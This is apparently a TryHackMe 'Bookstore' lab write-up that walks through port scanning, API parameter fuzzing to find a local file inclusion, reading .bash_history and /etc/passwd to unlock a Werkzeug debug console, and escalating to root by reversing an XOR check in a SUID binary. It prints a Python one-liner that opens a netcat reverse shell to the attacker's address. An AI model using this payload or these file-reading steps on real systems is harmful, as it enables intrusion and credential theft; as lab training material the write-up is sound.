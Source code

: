 ```yaml
---
title: Bookstore TryHackMe Writeup
tags: [writeup,rest,python,tryhackme,linux,api,suid]
style: border
color: success
description: 
---
```


![logo](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/logo.jpeg)

## Scanning
We launch nmap with scripts and software versions on all ports.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/1.png)

## Enumeration
We list two web services on port 80 of this website:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/2.png)

In the source code of the file *"login.html"* we list relevant information about a PIN that is stored in a file *.bash_history*

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/8.png)

And at port 5000:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/3.png)

In the nmap capture, it listed the directory *"/api/"*, there we will be able to list several of the site's functionalities.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/4.png)

We test the API and see that it works correctly from Burp.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/5.png)

We use the **Nikto** tool and enumerate the directory *"/console/"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/6.png)

We access to the directory and we see that it asks for a PIN to be able to unlock this functionality.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/7.png)


## Exploitation
Searching on Google about the type of server and its PIN, I found this [documentation](https://book.hacktricks.xyz/pentesting/pentesting-web/werkzeug)

To get the PIN, we would need to know a couple of parameters, but to get them we must be able to read some system files. 

Here the API will come into play, so we will do a brute force attack to enumerate some parameter that will help us to do LFI (Local File Inclusion).

We launched the **Wfuzz** tool with an average dictionary, in version 2 of the API we did not list anything new, but in version 1 we did.

#### API V2

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/9.png)

#### API V1

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/10.png)

If we access from the browser, we see that we can embed files (LFI).

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/11.png)

#### Flag user.txt

We exploit the vulnerability to be able to read the flag *user.txt*

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/12.png)


Recall that they mentioned that the PIN was being stored in the *.bash_history* file. Thanks to the */etc/passwd* file, we know the user names that contain home folder and we can enumerate the file and the access PIN.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/13.png)

We use the PIN and now we have access to the interactive console.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/14.png)

We use the following payload and we will have a reverse shell to the victim machine.

### Code Execute

``` python

__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f').read();

```

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/15.png)

### Reverse shell

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/16.png)


## Privilege Escalation

We checked the directory of the user *"sid"*, we found a binary that could be the way to escalate privileges, since it runs as the **root** user.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/17.png)


We transfer the binary to our kali, check with the **Ghidra** tool and see the conditional where it calls the 3 parameters calculating the xor value. 


![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/20.png)


But even if we are missing a parameter, we can obtain it by reversing the xor with the values we have.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/21.png)

With the magic number in our hands, we insert it and we become root and read the flag of *root.txt*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Bookstore/22.png)
